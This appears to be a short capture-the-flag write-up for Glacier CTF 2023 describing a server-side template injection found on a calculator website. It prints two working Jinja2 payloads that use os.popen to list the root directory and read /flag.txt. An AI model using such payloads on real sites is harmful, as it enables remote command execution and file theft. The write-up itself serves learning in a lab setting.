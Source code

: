 ```yaml
---
author: pl4int3xt
layout: post
title: Glacier CTF 2023
date: '2023-11-25 10:44:23 +0300'
// cover: img/cover_images/46.png
description: "Glacier CTF 2023"
categories: [Capture The Flag]
---
```


> I just created my first website! You can even do some calculations! Don't forget to check out my other projects!
author: Chr0x6eOs

We open the website and there is nothing interesting and so we try to check out the other projects 

![img-description](1.png)

We are brought to this page and immediately what pops in my brain is SSTI

![img-description](2.png)

I try injecting something to see the changes and indeed the website has an SSTI

![img-description](3.png)

Next let's check what's in the / directory and we see the file flag.txt using the following payload

```python
{% raw %}{{request['application']['__globals__']['__builtins__']['__import__']('os')['popen']('cd / && ls')['read']()}}{% endraw %}
```


![img-description](4.png)

Next we create a payload to read the flag.txt file

```python
{% raw %}{{request['application']['__globals__']['__builtins__']['__import__']('os')['popen']('cat /flag.txt')['read']()}}{% endraw %}
```

![img-description](5.png)

